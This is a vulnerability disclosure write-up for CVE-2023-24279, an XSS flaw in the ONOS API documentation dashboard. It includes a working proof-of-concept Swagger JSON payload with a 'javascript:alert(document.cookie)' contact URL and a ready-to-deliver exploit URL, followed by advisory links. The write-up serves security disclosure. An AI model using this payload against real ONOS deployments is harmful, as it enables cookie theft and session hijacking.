 # CVE-2023-24279

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-24279: [@edoardottt Youtube video](https://www.youtube.com/watch?v=1mSXzzwcGMM)

Vulnerable endpoint: <http://localhost:8181/onos/v1/docs/>

Payload:

```json
{
  "swagger" : "2.0",
  "info" : {
    "version" : "1.0.100",
    "title" : "Swagger UI v2.2.10 XSS POC",
    "description" : "Swagger UI v2.2.10 XSS POC",
    "contact" : {
      "name" : "edoardottt",
      "url" : "javascript:alert(document.cookie)",
      "email" : "edoardott@gmail.com"
    },
  },
}
```

PoC URL ready to be delivered: <http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/197f4bc482eddb263c47b525268d1628/raw/49ad93f4e5832d6e6af5cf4f9962dd9bebf9f3c1/onos-xss-poc.json>

References
------

- <https://edoardottt.com/CVE-2023-24279>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-24279>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24279>
- <https://github.com/advisories/GHSA-3xmp-jwrr-8f4r>
- <https://www.tenable.com/cve/CVE-2023-24279>
- <https://www.opencve.io/cve/CVE-2023-24279>
- <https://avd.aquasec.com/nvd/2023/cve-2023-24279/>
- <https://cve.report/CVE-2023-24279>
- <https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5601105>

<br>

Useful links while researching for this CVE:

- <https://github.com/swagger-api/swagger-ui/pull/3848>
- <https://github.com/swagger-api/swagger-ui/issues/3847>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef>
- <https://security.snyk.io/vuln/npm:swagger-ui:20171031>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160721>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160901>
